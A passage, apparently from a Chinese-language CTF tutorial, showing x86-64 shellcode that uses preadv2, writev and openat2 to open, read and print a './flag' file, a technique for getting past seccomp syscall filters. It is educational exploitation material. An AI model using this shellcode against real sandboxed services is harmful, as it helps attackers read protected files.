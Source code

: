 ```masm
    lea rbx, [rsp-8]
    push rbx
    mov rsi, rsp
    mov rdx, 1
    xor r10, r10
    xor r8, r8
    push SYS_preadv2
    pop rax
    syscall
    
    push 1
    pop rdi
    push 0x1
    pop rdx
    push 0x100
    lea rbx, [rsp+8]
    push rbx
    mov rsi, rsp
    push SYS_writev
    pop rax
    syscall
```

## B. openat2 (nr=437)

```c
    ssize_t openat2(int dfd, const char* filename, struct open_how* how, size_t usize);
```


这个函数封装了三个参数到结构体`how`中：

```c
struct open_how {
	__u64 flags;
	__u64 mode;
	__u64 resolve;
};
```

`dfd`与另外3个参数的使用方式与`openat`相同，`resolve`指解析路径名所有组件的方式，普通的打开文件操作填0即可。参数`size`必须为结构体`open_how`的大小，也就是`0x18`。

实例代码：

```c
    mov rax, 0x67616c662f2e
    push rax
    xor rdi, rdi
    sub rdi, 100
    mov rsi, rsp
    push 0
    push 0
    push 0
    mov rdx, rsp
    mov r10, 0x18
    push SYS_openat2
    pop rax
    syscall
```
